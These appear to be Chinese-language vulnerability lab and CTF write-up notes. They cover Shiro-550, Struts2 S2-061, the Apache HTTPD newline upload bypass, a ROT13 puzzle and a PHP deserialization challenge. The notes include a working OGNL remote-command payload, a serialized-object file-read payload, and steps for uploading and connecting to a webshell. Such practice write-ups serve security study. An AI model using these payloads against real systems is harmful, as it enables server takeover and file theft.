## Shiro 反序列化漏洞（CVE-2016-4437）



抓包后看到很明显的shiro550的特征



这里有个工具shiro_attack可以利用它来进行一些操作

检测到后可以进行传🐎



这里显示连接成功

## Struts2 S2-061 远程代码执行漏洞 （CVE-2020-17530）

使用某些tag等情况下可能存在OGNL表达式注入漏洞，从而造成远程代码执行,可能照成控制服务器等危害。S2-061是对S2-059沙盒进行的绕过
**影响范围**：Apache Struts 2.0.0-2.5.25



检测漏洞是否存在 payload:?id=%25%7b+%27test%27+%2b+(11+%2b+11).toString()%7d




用st2工具利用

或者可以通过bp利用，先把提交方式改为Post

```
------WebKitFormBoundaryl7d1B1aGsV2wcZwF Content-Disposition: form-data; name="id" %{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))} ------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```



## Apache HTTPD 换行解析漏洞（CVE-2017-15715）

**HTTPD**的版本**2.4.0~2.4.29**都有可能存在该漏洞，在解析PHP时，**xx.php\x0A**将被按照PHP后缀进行解析，导致可以绕过一些服务器的安全策略。



上传一个🐎进行抓包

在文件名后加入加入0a



提交后访问刚才上传的文件



拿蚁剑进行连接，成功拿下



## 回转十三位



得到base64的加密，解密后发现不太对

题目说是十三位，应该是rot13解密（[凯撒加密](https://baike.baidu.com/item/凯撒加密/0?fromModule=lemma_inlink)的一种变体）

得到base64后在进行解密

## [网鼎杯 2020 青龙组]AreUSerialz

```
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

}
```

通过代码一眼看到了含flag的文件名，往下看发现了read中有读取文件的函数，也就是说要调用read来读取flag，而要调用read往上看，发现process有个op变量可以触发read，当op=1时触发write，当op=2时则触发read，于是开始构造

```
<?php
class FileHandler{
	public $op = 2;
	public $filename = "php://filter/read=convert.base64-encode/resource=flag.php";（因为是php文件所有用伪协议去读）
	public $content;
}
$obj = new FileHandler();
echo serialize($obj);
?>
```



上面提示是通过str进行传参于是构造payload：

```
/?str=O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";s:7:"content";N;}
```



解码后得到flag

